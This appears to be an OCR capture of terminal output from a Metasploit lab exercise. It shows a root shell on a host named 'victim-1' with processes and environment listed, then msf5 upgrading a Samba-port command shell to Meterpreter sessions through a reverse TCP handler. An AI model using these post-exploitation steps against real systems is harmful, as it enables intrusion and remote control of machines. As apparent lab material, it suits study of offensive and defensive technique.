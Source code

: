 ```
root           9  0.0  0.0  47076 15560 ?        S    14:33   0:00 /usr/bin/python /usr/bin/supervisord -n
root          10  0.0  0.0 292840  6684 ?        S    14:33   0:00 /usr/local/samba/sbin/smbd -D
root          38  0.0  0.0   2128  1844 ?        Sl   14:46   0:00 /tmp/CbMfD
root          53  0.0  0.0   4336  1564 ?        S    14:52   0:00 /bin/sh
root          62  0.0  0.0   1148  1024 ?        S    14:54   0:00 /tmp/rnqNo
root          69  0.0  0.0   4336   760 ?        S    14:57   0:00 /bin/sh
root          71  0.0  0.0  20224  3288 ?        S    14:58   0:00 /bin/bash -i
root          90  0.0  0.0  17504  2084 ?        R    15:04   0:00 ps aux
root@victim-1:/tmp# env
env
USER=root
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/system/bin:/system/sbin:/system/xbin
PWD=/tmp
LANG=C
SHLVL=1
HOME=/root
_=/usr/bin/env
root@victim-1:/tmp# ^C
Terminate channel 1? [y/N]  y
meterpreter > 
[*] 192.111.31.3 - Meterpreter session 3 closed.  Reason: Died
```

```
msf5 post(linux/gather/enum_configs) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.111.31.2:33589 -> 192.111.31.3:445 (192.111.31.3)

msf5 post(linux/gather/enum_configs) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.111.31.2:4433 
[*] Sending stage (985320 bytes) to 192.111.31.3
[*] Meterpreter session 7 opened (192.111.31.2:4433 -> 192.111.31.3:60720) at 2023-03-10 15:15:46 +0000
[*] Sending stage (985320 bytes) to 192.111.31.3
[*] Meterpreter session 8 opened (192.111.31.2:4433 -> 192.111.31.3:60722) at 2023-03-10 15:15:49 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
msf5 post(linux/gather/enum_configs) > sessions

Active sessions
===============

  Id  Name  Type                   Information  Connection
  --  ----  ----                   -----------  ----------
  1         shell cmd/unix                      192.111.31.2:33589 -> 192.111.31.3:445 (192.111.31.3)
  7         meterpreter x86/linux               192.111.31.2:4433 -> 192.111.31.3:60720 (192.111.31.3)
  8         meterpreter x86/linux               192.111.31.2:4433 -> 192.111.31.3:60722 (192.111.31.3)
```
